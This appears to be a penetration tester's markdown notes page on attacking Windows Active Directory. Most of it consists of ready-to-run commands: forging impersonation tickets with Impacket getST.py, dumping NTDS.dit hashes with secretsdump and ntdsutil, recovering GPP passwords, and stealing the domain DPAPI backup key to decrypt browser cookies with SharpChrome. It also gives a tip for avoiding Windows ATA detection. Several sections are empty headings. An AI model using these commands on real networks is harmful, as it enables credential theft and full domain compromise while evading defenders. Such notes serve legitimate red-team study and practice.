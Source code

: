 ```yaml
---
date: 2020-04-09 23:00:00 +0000
title: Active Directory Enumeration and Exploitation
description: Notes on AD Enumeration and Exploitation
categories: ActiveDirectory

---
```

\### SharpView

SharpView has a number of useful functions that can be used to get information:

\`\`\`

\`\`\`

\#### Kerberos Exploitation

\### Unconstrained Delegation

\### Constrained Delegation

If a target computer has the "msDS-AllowedToDelegateTo" and includes an account which an attacker controls(either through ACLs or local administrator rights), then they can compromise the target computer through s4U2Self and S4U2Proxy. Additionally, if computer account NTLM credentials can be relayed to a DC over LDAP, then it is possible to use ntlmrelayx to modify the "msDS-AllowedToDelegateTo" propery in order to include a computer account under control of an attacker. This means that an attacker can then compromise this relayed computer.

An example of creating these types of impersonation tickets with Impacket is shown below:

\`\`\`

proxychains getST.py -dc-ip ip_address -spn cifs/DC01 'DOMAIN/WS01$' -hashes 'LM:NT' -impersonate domain_account

\`\`\`

\### Constrained Resoure Delegation

Uses "msDS-AllowedToActOnBehalfOfOtherIdentity" property on computer object. An attacker has "GenericWrite" over the target computer object, they can modify the "AllowedToAct" and include an SPN which they control.

\#### SPNs

\#### ASRepRoast

\### GPP Passwords

The following tool can be used to pull down the GPP preference file from a domain controller in order to retrieve the password, this does not rely on policy files being cached on the target host:

\`\`\`

execute-assembly Net-GPPPassword

\`\`\`

\### AD User Enumeration

\`\`\`

execute-assembly SharpView.exe Get-NetUser -Name username

\`\`\`

\`\`\`

execute-assembly SharpView.exe Get-NetUser -Properties manager,department,..

\`\`\`

\### SharpHound

SharpHound can be used to enumerate all collections from a domain, using the following command:

\`\`\`

execute-assembly ADEnum.exe -c All --zipFileName ad -Domain 

\`\`\`

To avoid querying the domain controllers in cases where Windows ATA is in use, use the -ExcludeDC command.

\### Dumping NTDS.dit

A number of ways can be used to dump the NTDS.dit database depending on the situation. If remote code execution is valid, then impacket modules such as secretdump through proxychains, however this process could be time consuming.

\`\`\`

proxychains secretdump.py -just-dc-ntlm domain/user@dc_ip

\`\`\`

Another approach is to use ntdsutil and copy the folder from the DC:

\`\`\`

ntdsutil "ac i ntds" "ifm" "create full c:\\temp\\ntdsdump" q q

\`\`\`

\## Dumping DPAPI Backup Keys

.\\SharpChrome.exe backupkey /server:dc01 /file:key.pvk

\`\`\`

\[*\] Action: Retrieve domain DPAPI backup key

\[*\] Using server                     : dc01

\[*\] Preferred backupkey Guid         : \[guid\]

\[*\] Full preferred backupKeyName     : \[backupkeyname\]

\[*\] Backup key written to            : key.pvk

\`\`\`

\`\`\`

.\\SharpChrome.exe cookies /server:workstation /pvk:key.pvk

\`\`\`